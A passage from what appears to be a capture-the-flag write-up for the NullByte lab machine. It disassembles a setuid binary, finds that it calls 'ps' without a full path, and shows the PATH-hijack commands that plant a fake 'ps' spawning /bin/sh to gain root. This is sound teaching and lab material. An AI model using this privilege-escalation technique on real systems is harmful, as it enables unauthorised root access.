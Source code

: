 ```
ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1649 pts/0    00:00:00 procwatch
 1650 pts/0    00:00:00 sh
 1651 pts/0    00:00:00 ps
```
Looking at its strings, it seems to be a short C program that just loads a system function so we quickly take a look at main with objdump hoping we don't have to debug anything on Linux here.
```
ramses@NullByte:/var/www/backup$ objdump -D procwatch | grep "<main>" -A 30
080483fb <main>:
 80483fb:       8d 4c 24 04             lea    0x4(%esp),%ecx
 80483ff:       83 e4 f0                and    $0xfffffff0,%esp
 8048402:       ff 71 fc                pushl  -0x4(%ecx)
 8048405:       55                      push   %ebp
 8048406:       89 e5                   mov    %esp,%ebp
 8048408:       51                      push   %ecx
 8048409:       83 ec 44                sub    $0x44,%esp
 804840c:       8d 45 c6                lea    -0x3a(%ebp),%eax
 804840f:       66 c7 00 70 73          movw   $0x7370,(%eax)
 8048414:       c6 40 02 00             movb   $0x0,0x2(%eax)
 8048418:       83 ec 0c                sub    $0xc,%esp
 804841b:       8d 45 c6                lea    -0x3a(%ebp),%eax
 804841e:       50                      push   %eax
 804841f:       e8 ac fe ff ff          call   80482d0 <system@plt>
 8048424:       83 c4 10                add    $0x10,%esp
 8048427:       b8 00 00 00 00          mov    $0x0,%eax
 804842c:       8b 4d fc                mov    -0x4(%ebp),%ecx
 804842f:       c9                      leave  
 8048430:       8d 61 fc                lea    -0x4(%ecx),%esp
 8048433:       c3                      ret    
 8048434:       66 90                   xchg   %ax,%ax
 8048436:       66 90                   xchg   %ax,%ax
 8048438:       66 90                   xchg   %ax,%ax
 804843a:       66 90                   xchg   %ax,%ax
 804843c:       66 90                   xchg   %ax,%ax
 804843e:       66 90                   xchg   %ax,%ax
```
Looking through that for awhile, it seems to be loading the hex 0x73 and 0x70 characters into EAX followed by a null, then calling a system function. Seeing as how that translates to "ps", we take a wild guess and assume that this setuid procwatch executable is calling "ps" without specifying a path. If we can just set the PATH variable to a folder we can write into, then anything named "ps" in there will run instead of the original "ps" at /bin/ps. In this case it will just run /bin/sh as root and game over.
```
ramses@NullByte:/var/www/backup$ export PATH=/var/www/backup:${PATH}
ramses@NullByte:/var/www/backup$ echo '/bin/sh' > ps && chmod +x ps                                                                                                                                          
ramses@NullByte:/var/www/backup$ ls -l                                                                                                                                                                       
total 16                                                                                                                                                                                                     
-rwsr-xr-x 1 root   root   4932 Aug  2  2015 procwatch                                                                                                                                                       
-rwxr-xr-x 1 ramses ramses    8 Mar 21 02:46 ps                                                                                                                                                              
-rw-r--r-- 1 root   root     28 Aug  2  2015 readme.txt                                                                                                                                                      
```